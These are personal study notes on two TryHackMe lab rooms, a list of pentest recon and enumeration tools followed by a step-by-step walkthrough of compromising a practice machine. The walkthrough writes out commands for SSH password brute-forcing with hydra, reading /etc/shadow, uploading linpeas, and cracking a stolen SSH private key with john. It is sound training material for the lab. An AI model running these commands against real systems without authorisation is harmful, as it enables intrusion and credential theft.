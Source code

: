 # Penetration Testing

### The Hacker Methodology

_Summary: the steps in doing a pentesting_&#x20;

Room: [https://tryhackme.com/r/room/hackermethodology](https://tryhackme.com/r/room/hackermethodology)

* recon tools
  * peoplefinder.com
  * who.is -> check IP
  * sublist3r -> find subdomains
  * hunter.io -> search emails
  * builtwith.com and wappalyzer -> check a site was built with what
* enum and scan tools
  * dirbuster
  * enum4linux
  * metasploit
  * burpsuite
* covering tracks not needed for professionals; stop immidiately after priv. escalation
* sample of pentesting report: [link](https://github.com/hmaverickadams/TCM-Security-Sample-Pentest-Report)

### Basic Pentesting

_Summary: real implementation of_ [_The Hacker Methodology_](penetration-testing.md#the-hacker-methodology)&#x20;

Room: [https://tryhackme.com/r/room/basicpentestingjt](https://tryhackme.com/r/room/basicpentestingjt)

* deploy the machine, connect to target using openVPN

#### 1. scanning

* `mkdir nmap`
* `nmap -sC -sV -oN nmap/initial [TARGET IP]`
  * port 22 open -> running ssh
  * port 80 open -> running a website
  * port 139 and 445 -> running SMB "Samba" (server message block)
* check the website (port 80), use `curl` or browser, get some txt files
  * jan has weak password
  * server is using "struts REST 2.5.12"

#### 2. enumeration

* find hidden directory:
  * `gobuster -w /usr/share/wordlists/rockyou.txt -u http://[TARGET IP]/`
  * found `/development`
* smb enumeration
  * `enum4linux -a [TARGET IP] | tee enum4linux.log`
  * 'a' means all, tee to both print to terminal/stdout && the log file
  * found username `jan` and `kay`
* password brute-forcing (SSH)
  * `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://[TARGET IP]`
  * found jan's password `armando`

#### 3. accessing jan ssh

* try obvious things (find priv. esc vector)
  * do `ls -la`
  * cat `/etc/passwd` & `/etc/shadow`
  * access kay's home dir
  * etc
* automatically find vector
  * use [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), send it to remote server: `scp linpeas.sh jan@[TARGET IP]:/dev/shm`
  * shm is "shared memory"
  * run inside remote server with `sh linpeas.sh | tee linlog.txt`
  * found vector: kay has her ssh private key open/readable

#### 4. accessing kay ssh

* using kay's key
  * store/copy both kay's keys locally
  * access kay's ssh with `ssh -i kay_id_rsa kay@[TARGET IP]`
  * key is password protected -> use johntheripper `ssh2john`
  * run `python3 /path/to/johntheripper/john/run/ssh2john.py kay_id_rsa > key_hash.txt` -> get password hash
  * run `/path/to/johntheripper/john/run/john key_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt` -> get password
  * found password `beeswax`
* rerun `ssh -i kay_id_rsa kay@[TARGET IP]`, enter passphrase
  * logged in as kay
  * cat `pass.bak`
  * found kay's password `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
  * we can use this password to sudo
